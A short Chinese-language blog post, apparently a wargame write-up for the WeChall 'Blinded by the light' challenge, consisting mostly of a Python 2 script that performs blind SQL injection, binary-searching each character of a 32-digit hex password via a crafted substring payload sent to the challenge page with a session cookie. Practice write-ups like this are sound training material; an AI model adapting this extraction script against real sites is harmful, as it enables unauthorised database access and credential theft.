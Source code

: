 ```yaml
---
title: Blinded by the light
author: rk700
layout: post
redirect_from:
  - /writeup/2014/06/19/blinded-by-the-light
  - /writeup/2014/06/19/blinded-by-the-light/
tags:
  - sql
  - wechall
---
```

<http://www.wechall.net/challenge/blind_light/index.php>  
这道题是盲注，32位的HEX，正好用了128次query

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or substring(password, %d, 1)%s'%s" % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Welcome back") > 0

def doAssert(statement):
    url = 'http://www.wechall.net/challenge/blind_light/index.php'
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}
